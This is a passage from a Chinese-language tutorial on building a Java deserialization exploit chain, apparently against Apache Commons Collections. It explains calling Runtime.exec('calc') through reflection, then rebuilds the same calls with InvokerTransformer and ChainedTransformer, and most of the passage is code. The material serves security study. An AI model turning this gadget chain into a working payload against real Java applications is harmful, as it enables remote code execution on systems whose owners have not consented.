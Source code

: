 ```bash
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

### EXP 问题：

#### `Runtime`类不可实例化：

我们可以看到整条链子我们已经顺下来了，但是我们最后传入的 r = Runtime.getRuntime() 并没有 serializable 接口，不能够序列化，所以这里我们要进行反射调用，从 Runtime 的 class 属性入手进行反射

```bash
Class c = Runtime.class;
Method getRuntimeMethod = c.getMethod("getRuntime",null);
Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
Method execMethod = c.getMethod("exec",String.class);
execMethod.invoke(r,"calc");
```

然后我们来转化一下，用`InvokerTransformer`类中的`transform`方法来进行构造：

```bash
public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);

        }
```

```bash
Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);//获取 Runtime.getRuntime 方法

Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}).transform(getRuntimeMethod);//调用 Runtime.getRuntime 方法从而实例化 Runtime 类

InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});//
invokerTransformer.transform(r);
```

然后我们还可以调用链式结构来优化这个代码：

```bash
public ChainedTransformer(Transformer[] transformers) {
        super();
        iTransformers = transformers;
    }

    /**
     * Transforms the input to result via each decorated transformer
     * 
     * @param object  the input object passed to the first transformer
     * @return the transformed result
     */
    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
```